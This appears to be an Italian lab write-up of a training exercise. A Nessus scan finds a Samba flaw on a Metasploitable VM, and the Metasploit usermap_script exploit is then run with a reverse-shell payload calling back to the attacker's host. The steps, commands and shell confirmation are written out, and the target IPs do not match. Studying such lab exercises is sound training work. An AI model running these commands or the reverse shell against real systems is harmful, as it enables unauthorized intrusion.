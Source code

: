 ### 🛠️ Passaggi Eseguiti

#### 1. 🔍 Scansione delle Vulnerabilità con Nessus

- **Avvio del servizio Nessus**:
  ```bash
  sudo systemctl start nessusd
  ```
- **Accesso all'interfaccia web**: `https://localhost:8834`
- **Creazione della scansione**:
  - Tipo: Basic Network Scan
  - Target: 192.168.50.3
- **Esecuzione dello scan**:
  - La scansione ha identificato una vulnerabilità critica sul servizio Samba in ascolto sulla porta 445 TCP.
- **Report allegato**:
  - I dettagli della scansione sono disponibili nel file `nessus_scan_report.html`.

#### 2. 💻 Attacco alla Macchina Metasploitable con Metasploit

- **Avvio di MSFConsole**:
  ```bash
  msfconsole
  ```
- **Ricerca dell'exploit appropriato**:
  ```bash
  search samba
  ```
  - Trovato: `exploit/multi/samba/usermap_script` (indice: 15).
- **Selezione dell'exploit**:
  ```bash
  use 15
  ```
- **Configurazione dei parametri dell'exploit**:
  ```bash
  set RHOSTS 192.168.13.150
  set RPORT 445
  set payload cmd/unix/reverse
  set LHOST 192.168.13.100
  set LPORT 5555
  ```
- **Esecuzione dell'exploit**:
  ```bash
  exploit
  ```
  - L'exploit ha avuto successo, fornendo una shell sulla macchina vittima.

#### 3. 📡 Verifica dell'Accesso alla Macchina Compromessa

- **Comando eseguito**:
  ```bash
  ifconfig
  ```
  - Risultato: Confermato l'indirizzo IP della macchina vittima: `192.168.50.3`.

